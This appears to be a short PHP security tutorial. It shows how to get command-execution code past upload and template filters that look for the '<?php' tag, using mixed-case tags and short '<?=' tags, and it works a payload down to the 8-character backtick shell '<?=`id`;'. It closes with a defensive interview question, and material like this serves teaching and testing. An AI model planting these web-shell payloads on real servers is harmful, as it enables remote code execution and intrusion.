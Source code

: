 # Simple bypass PHP

The common way of writing PHP is start with `<?` and ends with `?>`

Example:

```
<?php phpinfo();?>
```

When attempting to upload file or modify templates, often it will check if the content starts with \`\<?php\` tags

So what are the ways to bypass it?

## Method 1

Use upper and lower case

```
<?pHp system('id');?>
```

## Method 2

Replace the php starting tag with `=`

E.g.

```
<?= system('id');?>
```

## PHP Reduction Challenge: Use 8 characters to run the `id` command

Origin Command

```
<?php system('id');?>  // 21 character
```

### First reduction: PHP tags allow for being unclosed.

PHP has a feature where PHP tags are allowed to be unclosed. This means that you can use `<?php` without using `?>`, and it won't affect the execution of the PHP code.

Utilizing this feature, we can reduce the previous code as follows.

```
<?php system('id'); // 19 character
```

### Second reduction: PHP short tags.

In addition to the standard way of writing PHP tags, there are two other forms, also known as short tags.

```
<?= ?>
```

Utilizing this feature, we can reduce the previous code as follows.

```
<?= system('id'); // 17 character
```

### Third reduction: Changing the method of executing the command.

Since our goal is to successfully execute the command, is there a method that can shorten the code for executing the command? For example, is there a function that is shorter than `system`?

PHP, being a large language, of course, has functions shorter than `system` that can also execute commands.

```
eval()
popen()
exec()
....
```

These are still not short enough. The shortest of all is the backticks `` ` ` ``. PHP can execute commands using backticks.

```
system('id')  =>  `id`
```

Utilizing this feature, we can reduce the previous code as follows.

```
<?=`id`;
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

## Interview Question

It is interesting to see how the backticks can excute shell commands, does backticks bind to `system` function or `shell_exec` function?

Will disable this 2 functions preventing backtick from executing? If not how do you prevent it?



## Author&#x20;

[Ikonw](https://github.com/Ik0nw/)
